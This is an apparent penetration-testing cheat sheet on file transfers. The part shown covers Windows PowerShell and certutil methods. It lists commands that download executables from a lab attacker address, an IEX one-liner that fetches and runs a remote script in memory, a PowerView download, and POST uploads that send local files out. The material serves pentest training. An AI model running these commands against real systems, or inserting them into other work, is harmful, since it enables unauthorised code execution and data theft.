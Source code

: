 # File Transfers

File transfer is a critical skill in penetration testing and system administration. This guide covers various methods and tools for transferring files between systems.

## Table of Contents
- [Windows File Transfer Methods](#windows-file-transfer-methods)
- [Linux File Transfer Methods](#linux-file-transfer-methods)
- [Upload Operations](#upload-operations)
- [Download Operations](#download-operations)
- [Living off the Land](#living-off-the-land)

---

## Windows File Transfer Methods

### PowerShell

#### Download File
```powershell
# Using Invoke-WebRequest
Invoke-WebRequest -Uri "http://10.10.14.1:8000/file.exe" -OutFile "C:\Temp\file.exe"

# Using WebClient
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.1:8000/file.exe", "C:\Temp\file.exe")

# Short form
iwr -uri http://10.10.14.1:8000/file.exe -Outfile file.exe

# Download and Execute in Memory
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.1:8000/script.ps1')

# Invoke-WebRequest to download
Invoke-WebRequest http://10.10.14.1/PowerView.ps1 -OutFile PowerView.ps1
```

#### Upload File
```powershell
# Using Invoke-RestMethod
Invoke-RestMethod -Uri http://10.10.14.1:8000/upload -Method Post -InFile C:\Temp\file.txt

# Using Invoke-WebRequest
Invoke-WebRequest -Uri http://10.10.14.1:8000/upload -Method Post -InFile C:\Temp\file.txt
```

### Certutil
```cmd
# Download file
certutil -urlcache -f http://10.10.14.1:8000/file.exe file.exe

# Alternative syntax
certutil.exe -urlcache -split -f "http://10.10.14.1:8000/file.exe" file.exe
```
